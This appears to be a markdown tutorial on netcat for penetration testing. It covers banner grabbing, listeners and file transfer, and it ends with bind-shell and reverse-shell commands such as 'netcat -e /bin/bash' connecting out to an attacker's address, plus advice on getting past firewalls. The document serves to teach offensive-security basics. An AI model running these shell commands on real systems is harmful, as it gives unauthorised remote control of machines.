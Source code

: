 # Netcat - the hacker's swiss army knife

Is a tool that can read and write to TCP and UDP ports (can act as client or server).

Netcat is a tool used to:
* Check if port is open or close
* Read a banner from a port.
* To connect to a network service manually.

Netcat binary is present by default in Linux, Windows and MacOSX also if system administrators tend to remove it from the servers for obvious security reasons. 

## How to use netcat as client.
We have already scanned our target with nmap and we know that the following ports are open: 

```Nmap output
Nmap scan report for ************ (10.0.0.22)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
110/tcp  open  pop3
```
Let's try to connect to the port 110 

`# netcat -nv 10.0.0.22 110`
```netcat output
(UNKNOWN)[10.0.0.22] 110 (pop3) open
+OK POP3 server lab ready 
```
In this case after the connection we got a welcome message from the server ( a "banner").

The parameters `-nv` used mean:
+ -n  I will give a numeric IP address and not an host address.  
+ -v  verbose mode. 

## How to use netcat as server (listener)

To listen with netcat on a TCP or UDP port we will set it up as server on our localhost and try to talk with it through another computer connected on the same network (or virtual machine).

`# netcat -nlvp 444`
```output netcat server
listening on [any] 4444 ...
```
Explanation new parameters: 
+ -l listen mode (for inbound connections)
+ -p specify a port


We can connect to this port using the same command that we used before to use netcat as client from another machine.
I will use the address 10.0.0.22 as the server one.

`# netcat -nv 10.0.0.22 4444`
```output ncat client
(UNKNOWN) [10.0.0.22] 4444 (?) open
I can write here and the server will be able to see ! 
Also, if I write in the server prompt the client will be able to see it ! 
Congratulation you created a chat ! 
```

## Transfer files with netcat 

Netcat can also be used to transfer file between a server and a client.

Set up the server that will receive:
`# netcat -nlp 4444 > incoming.exe`

Set up the client that will send:
`# netcat -n 10.0.0.22 4444 < file_to_transfer.exe`

Netcat will not give us any feedback, but the file will be in the specified folder. 
Check for file size matching before quitting the connection. 

## Remote administration with netcat
As we previously saw with netcat is possible to create a communication between a client and a server.
This textual exchange of messages can be used to do command redirection.
We can take an executable file and redirect the input, output, and error messages to a TCP/UDP port rather than the default console.
There are two tipes of connection that can be enstablished, and it's really important to understand when one rather than the other should be  used. 

### Bind shell 
A bind shell is enstablished when a server that has a public ip address opens a port to a client and binds a shell to that port.(fig.1)
So when the client connects to this public address on this port it will be welcomed with the server command prompt.

![bindshell](https://www.dropbox.com/s/ul38konoyhnx232/2017-12-01%2016.46.29.jpg?raw=1)

To create a bind shell the attacker should connect (as client) to the target (server).
The *target* will open a netcat session as server with a shell binded to it (es. from Windows):

`netcat -nlvp 4444 -e cmd.exe`

Parameters:
+ -e  execute

The *attacker* will then connect to the server and get command prompt access:
a.b.c.d is the public IP address of the server.
`netcat -nv a.b.c.d 4444`
From now on, everything written on the attacker computer will be sent to cmd.exe on the target computer and the output redirected back to the attacker.



### Reverse shell

![reverseshell](https://www.dropbox.com/s/8uvared7qrkz9dv/2017-12-01%2017.02.28.jpg?raw=1)

To create a reverse shell the attacker is the server and the target will connect to it as client.
The *attacker* will create a server.
`netcat -nlvp 4444`

The *target* will connect to the server and bind a shell to the opne TCP port (es. from Linux):
a.b.c.d is the public IP address of the server 
`netcat -nv a.b.c.d -e /bin/bash`

### Conclusions.
Which type of connection should I use? 
If you are on a LAN, both method will work just fine. 
In a real scenario the computer to attack will be positioned inside a private network and the attacker will not be able to connect to it because some kind of firewall will block the incoming connection to that port ! 
Usually firewalls block incoming connection and not outgoing connections, this is why we should use a reverse shell.
A *reverse shell* allows to the target to connect to us (and we should have control on our router firewall) through our public IP. 


## ncat and encrypted link between a server and a client (SSL)
coming..

